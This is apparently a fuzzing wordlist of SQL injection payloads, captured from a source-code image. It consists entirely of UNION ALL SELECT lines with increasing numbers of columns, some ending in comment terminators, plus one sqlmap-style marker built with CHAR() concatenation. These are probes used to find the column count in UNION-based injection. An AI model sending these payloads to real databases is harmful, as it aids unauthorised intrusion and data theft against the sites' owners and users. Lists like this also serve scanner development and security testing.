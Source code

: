 ```
 UNION ALL SELECT CHAR(113)+CHAR(106)+CHAR(122)+CHAR(106)+CHAR(113)+CHAR(110)+CHAR(106)+CHAR(99)+CHAR(73)+CHAR(66)+CHAR(109)+CHAR(119)+CHAR(81)+CHAR(108)+CHAR(88)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113),NULL-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION ALL SELECT 'INJ'||'ECT'||'XXX'-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
 UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
```